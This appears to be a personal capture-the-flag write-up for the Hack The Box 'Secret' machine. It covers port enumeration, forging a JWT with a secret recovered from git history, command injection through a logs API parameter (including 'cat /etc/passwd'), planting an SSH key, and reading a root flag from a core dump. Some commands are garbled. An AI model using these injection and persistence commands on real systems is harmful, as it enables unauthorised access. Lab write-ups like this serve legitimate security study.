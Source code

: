 Box Info secret.htb
OS: Linux \
IP: 10.10.11.120  \

Part I Skills learned::  
AppSec, JS \ 

---
**Enumeration::**

nmap -p- -A -oN secretports.txt ${IP} ::
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)             
|_http-title: DUMB Docs                                 
3000/tcp open  http    Node.js (Express middleware)     
|_http-title: DUMB Docs                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt ::
+ /docs, /api, /Docs, /API, /DOCS

ffuf -u http://secret.htb:FUZZ -w /usr/share/wordlists/subdomains-top1million-110000.txt:FUZZ | grep "Status: 200"
+ 80, #www, #mail, 080, 3000, #smtp #pop3

nikto -h http://secret.htb ::
+ Server: nginx/1.18.0 (Ubuntu)

http://secret.htb -> DL Source Code ::
+ Private.js UN:theadmin
+ Auth.js "l:30 const password:hashPaswrod -> l:23 const hashPaswrod = await bcrypt.hash(req.body.password, salt)"
+ popperjs/core v2.9.2
+ Bootstrap v5.0.2
+ http://secret.htb/docs#section-3 shows theadmin:root@dasith.works:Kekc8swFgD6zU (not SSH creds)
---
###**Step 1:**###
  + Create user::
```
# curl -i -X POST \                                                      
> -H 'Content-Type: application/json' \
> -d '{"name":"drtuser","email":"drt@dasith.works","password":"password123" \
> http:![](Screenshots/strapi_exploit_broken_shell.png)//10.10.11.120/api/user/login
```
# See ![create_user](Screenshots/secret_create_user.png) \

  + Login w/ user creds::
```
# curl -i -x POST \
> -H 'Content-Type: application/json' \
> -d '{"email":"drt@dasith.works","password":"password123" \
> http://10.10.11.120/api/user/login
```
# See ![login_user](Screenshots/login_secret.png) \

 `auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWNmNzY0NzlhN2U2NDA0NjAzOTNjNjgiLCJuYW1lIjoiZHJ0dXNlciIsImVtYWlsIjoiZHJ0QGRhc2l0aC53b3JrcyIsImlhdCI6MTY0MDk4NjYxM30.UxFx2kUzbFY_Ymt_LWQGq9FzeSEJktenzCT4vBZ_WBA`

###** JWT validation::**###
 + using none algorithm [jwt.IO](JWT.io) 
   + change alg: to None, NONE, n0ne, nOne :: Nope
 + hijacking another user
   + No users we know run this :: Nope
 + brute forcing the key [jwt_bruteforcer] (https://lmammino.github.io/jwt-cracker/) #npm install --global jwt-cracker
   + jwt-cracker "<jwt-token>"  "abcdefghijklmnopqrstuwxyz" 6 :: Nope Token too complex.
 + log into /api/prv fails ::`curl -w '\n' -H "auth-token: <jwt-token>" http://<ip>/api/priv` ::
     {"role":{"role":"you are normal user","desc":"drtuser"}} # See ![failed_priv](Screenshots/failed_jwt_api_priv_secret.png)

##**Step 2:**## 
 +.git folder has git log # See ![git_log_changes](Screenshots/git_log_changes.png)
    + "removed .env for security reasons"
    + open .env file in vim :: to view changes
    + `:r! git diff HEAD~2` ::
see Before ![before](Screenshots/before_git_diff.png) && \
see After ![after](Screenshots/after_git_diff.png) \
```
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
``` 
   + Create new token && sign into /api/priv See ![newJWT_login](Screenshots/newjwt_login.png)
   + cmd injection with jwt authenticated token. See ![cmd_jwt](Screenshots/cmd_injection_w_jwt.png)
```
# curl -i \                                                                                                                                          3 ⨯
> -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \
> 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
##File must be URL encoded for it to work with curl.
```

User is not a service therefore, a reverse shell is possible. 
    + First try to ssh 
    + Must attach SSH-public key to secret.htb server. Must be added to user's home dir to "authorized_machines"
`ssh-keygen -t rsa -b 4096 -C 'drt@htb' -f secret.htb -P '' #4096 bits, -C comment, -f name of ssh-key and -P is null`
    + in order to make sure SSH-key sticks:
```
    mkdir -p /home/dasith/.ssh
    echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys 
```
create bash variable::
`export PUBLIC_KEY=$(cat secret.htb.pub)`

curl command

```
curl \
  -i \ # print headers
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \ 
  -G \ # send data values through GET instead of POST
  --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" \ # encode data parameters
  'http://10.10.11.120/api/logs'
```
See ![200_ssh_key](Screenshots/200_add_ssh_key.png)

Key should be present now ssh into dasith! See ![ssh_dasith](Screenshots/ssh_dasith.png)

SPOILER:: key :: f49628ceda5c0f784c6ae947154b764b

##**Root::**##
    + /opt has count with SUID
        ./count /root :: See ![](Screenshots/secret_count.png)
    + strace && gdb dont help much - suid doesnt stay gdb. strace map is private
+ Because valgrind.log is present, "core dump" is exploitable. valgrind is a suite of tools for debugging! lucky us!
See ![core_dump](Screenshots/core_dump_valgrind.png)
```
./count /root/root.txt
ctrl + z
ps && kill -BUS <PID#> ##Apparently -BUS is same as -SIGSEGV
fg ::
"Bus error (core dumped)
```
+ crash reports are in `/var/crash` && can be unpacked with `apport-unpack` w/ `apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report`
+ binary files vim Coredump.
+ line 1482&1483 have flag:: See ![root_flag](Screenshots/secret_rootflag.png)
SPOILER :: Root :: e5bf603c4904fb6885014ad9cfc337ec

TODO: Read more about valgrind, apport-unpack

Segmentation Fault indicates an invalid access to a valid memory, while Bus Error indicates an access to an invalid address.
A problem report, as produced by apport is a single file with a set of key/value pairs in
the RFC822 syntax.


---
##**References:**###
[jwt.IO](JWT.io) 
[guide](https://drt.sh/posts/htb-secret/)
[jwt-cracker](https://github.com/lmammino/jwt-cracker)
[valgrind](https://www.man7.org/linux/man-pages/man1/valgrind.1.html)
[sig_vs_bus](https://www.geeksforgeeks.org/segmentation-fault-sigsegv-vs-bus-error-sigbus/)
[apport](https://wiki.ubuntu.com/Apport)